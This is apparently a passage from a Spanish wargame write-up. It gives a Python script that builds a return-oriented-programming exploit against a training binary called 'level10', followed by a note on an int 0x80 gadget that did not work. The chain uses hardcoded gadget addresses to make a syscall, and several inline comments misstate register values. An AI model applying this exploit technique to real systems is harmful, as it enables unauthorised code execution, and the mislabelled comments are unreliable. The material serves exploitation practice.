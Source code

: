 	
El fichero python quedaría así:

```python
#!/usr/bin/python
#
# Exploit ROP
#
 
from struct import pack
 
binary = "level10"
junk = "A" * 12

shell_string = pack('<I', 0xbffffb68) # string: cntrl

 
rop = pack('<I', 0x08052318)    # pop edx 
rop += pack('<I', 0xffffffff)   # pop edx (ebx = 0xffffffff)
rop += pack('<I', 0x0806568a)	# pop ecx
rop += pack('<I', 0xffffffff)   # pop ecx (ebc = 0xffffffff)
rop += pack('<I', 0x08052343)	# pop ebx
rop += shell_string             # pop ebx (ebx = 0x080b1953)
rop += pack('<I', 0x080853a6)   # inc ecx ; adc al 0x39 ;; (ecx = 0x0)
rop += pack('<I', 0x080687c3)   # inc edx ; add al 0x83 ;; (edx = 0x0)
rop += pack('<I', 0x0804825c)   # xor eax eax ; inc eax ;; (eax = 0x1)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x2)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x3)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x4)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x5)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x6)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x7)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x8)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x9)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0xa)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x9)
rop += pack('<I', 0x08048260)   # int 0x80 ; pop ebp ;;
#rop += pack('<I', 0x08052a00)   # int 0x80 ; pop ebp ;;
rop += pack('<I', 0x0806568a)	# pop ecx

payload = junk + rop 
 
print payload

# Fin fichero python
```

Nota: Cuando llamas a int 0x80 no se puede utilizar solo la llamada a la función porque no funciona, tiene que tener otra microinstrucción detrás. Es algo raro para investigar:

```
rop += pack('<I', 0x08048260)   # int 0x80 ; pop ebp ;;
#rop += pack('<I', 0x08052a00)   # int 0x80 ;; <---- Con esto no funciona ¿?
```

